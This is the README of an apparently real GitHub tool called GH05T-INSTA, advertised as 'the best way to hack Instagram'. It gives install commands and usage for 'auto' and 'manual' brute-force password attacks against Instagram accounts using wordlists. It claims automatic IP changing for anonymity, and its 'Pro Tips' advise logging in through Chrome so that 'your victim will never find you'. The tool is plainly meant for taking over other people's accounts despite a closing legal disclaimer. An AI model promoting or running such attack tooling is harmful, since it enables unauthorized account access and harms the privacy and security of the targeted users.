 
<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">

<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 3.01 {Linux}<p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
## Linux Installation 3.01 

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
* You can use two ways 🤺

01 ) Command Based ⬇️ (root)

## Usage Commands 

<b>AUTO ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ ./gh05t --user your-account-username --pass your-password-option 
$ ./gh05t --user mr_77778#8 --pass 2 
$ ./gh05t --user mr_fqake#@ --pass 3 
$ ./gh05t --user jdjza888#8 --pass 4 
$ ./gh05t --user gersman_9#6# --pass 6 
$ ./gh05t --user mr_77bd778#8 --pass 7 
$ ./gh05t --user ar_fake#@ --pass 8 
$ ./gh05t --user li888#8 --pass 9 
$ ./gh05t --user mtrman_9#6# --pass 10 
$ ./gh05t --user jr_77778#8 --pass 11 
$ ./gh05t --user ig_fake#@ --pass 12 
$ ./gh05t --user hsjza888#8 --pass 13 
$ ./gh05t --user gelian_9#6# --pass 14 
$ ./gh05t --user gehsghan_9#6# --pass 15 
$ ./gh05t --user jr7778#s8 --pass 16 
$ ./gh05t --user igahacke#@ --pass 17 
$ ./gh05t --user hsjd888#8 --pass 18 
$ ./gh05t --user gehdhan_9#6# --pass 19 
$ ./gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ ./gh05t --user username --passadd pwdlocation-and-name
$ ./gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ ./gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ ./gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ ./gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ ./gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ ./gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ ./gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ ./gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ ./gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ ./gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ ./gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ ./gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ ./gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```
